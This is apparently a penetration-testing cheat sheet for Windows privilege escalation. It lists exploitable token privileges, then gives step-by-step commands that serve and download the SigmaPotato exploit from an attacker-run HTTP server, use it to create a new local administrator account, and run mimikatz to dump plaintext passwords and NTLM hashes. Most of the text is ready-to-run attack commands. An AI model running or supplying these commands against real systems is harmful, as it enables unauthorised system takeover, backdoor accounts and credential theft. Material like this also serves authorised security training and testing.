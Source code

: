 # Enumerate Privileges of current user
```batch
whoami /priv
```
# Privileges known to lead to Privilege Escalation
* SeImpersonatePrivilege
* SeBackupPrivilege
* SeAssignPrimaryToken
* SeLoadDriver
* SeDebug

In most configurations, IIS (Windows Webserver) will run as LocalService, LocalSystem, NetworkService, or ApplicationPoolIdentity, which all have SeImpersonatePrivilege assigned.

This also applies to other Windows services.
# SeImpersonatePrivilege
To exploit this privilege, SigmaPotato (or other "potato" exploits) can be used to trick "NT AUTHORITY\SYSTEM" into authenticating into a malicious named pipe, allowing us to execute commands as them.
```bash
wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
```
```bash
python -m http.server 80
```
```powershell
iwr -uri http://$(IP_ADDRESS)/SigmaPotato.exe -OutFile SigmaPotato.exe
```
```powershell
.\SigmaPotato "net user dave4 lab /add"
```
```powershell
.\SigmaPotato "net localgroup Administrators dave4 /add"
```
# Mimikatz
If a user has either of the following privileges, mimikatz can be used:
* SeImpersonatePrivilege
* SeDebugPrivilege
Enable SeDebugPrivilege (require for dumping passwords):
```
privilege::debug
```
Elevate privileges to SYSTEM (also required):
```
token::elevate
```
Dump plaintext and hashed passwords from ALL sources:
```
sekurlsa::logonpasswords
```
Dump only NTLM hashes from SAM database:
```
lsadump::sam
```
